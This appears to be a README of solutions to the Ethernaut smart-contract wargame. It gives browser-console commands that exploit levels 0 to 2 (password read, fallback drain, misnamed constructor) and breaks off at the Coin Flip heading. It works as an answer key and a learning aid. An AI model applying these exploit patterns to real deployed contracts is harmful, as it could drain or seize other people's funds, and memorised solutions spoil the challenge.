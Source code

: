 # Ethernaut Solutions

Using the following link https://ethernaut.openzeppelin.com/

## 0. Hello Ethernaut

```
await contract.password()
// Get the above result and substitute with $password$ below
await contract.authenticate('$password$')
```

## 1. Fallback

```
await contract.contribute({value: 500});
await contract.send({value: 500});
await contract.withdraw();
```

## 2. Fallout

```
await contract.Fal1out({value: 500});
```

## 3. Coin Flip

